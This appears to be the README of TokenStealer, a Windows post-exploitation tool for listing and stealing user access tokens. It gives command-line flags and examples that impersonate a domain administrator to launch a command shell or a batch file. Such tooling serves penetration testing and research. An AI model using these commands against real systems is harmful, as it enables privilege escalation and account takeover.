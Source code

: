 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br><br>
TokenStealer.exe<br>
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all users token<br>
         -e: list all users token with extended info -> <user>:<token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>:<pid><br>
         -p: users token from specfic  process pid<br>
         -u: impersonate token of user <user> <br>
         -c: command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>

